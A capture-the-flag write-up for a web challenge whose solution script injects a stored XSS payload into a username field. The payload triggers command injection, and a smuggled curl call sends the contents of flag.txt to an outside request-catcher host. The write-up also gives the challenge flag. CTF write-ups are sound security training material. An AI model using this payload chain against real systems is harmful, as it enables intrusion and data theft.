 # Open Seasame

Solved by: @Cookies to SELL

- Category: web
- Description: Does the CLI listen to magic?
- Challenge Files: server.py, admin,js

Flag format: CACI{.\*}

### Solutions:

```py
import requests
### DELIVER MALICIOUS PAYLOAD ###
payload = "<script>fetch('/api/cal?modifier=;curl https://ayam.requestcatcher.com/test?$(cat flag.txt)')</script>"
URL = "http://chal.competitivecyber.club:13337"

resp = requests.request("POST", URL + "/api/stats", json={"username": payload, "high_score": 0})
uuid = resp.json()['id']

print("api/stats/" + uuid)
```

**Flag:** `CACI{1_l0v3_c0mm4nd_1nj3ct10n}`



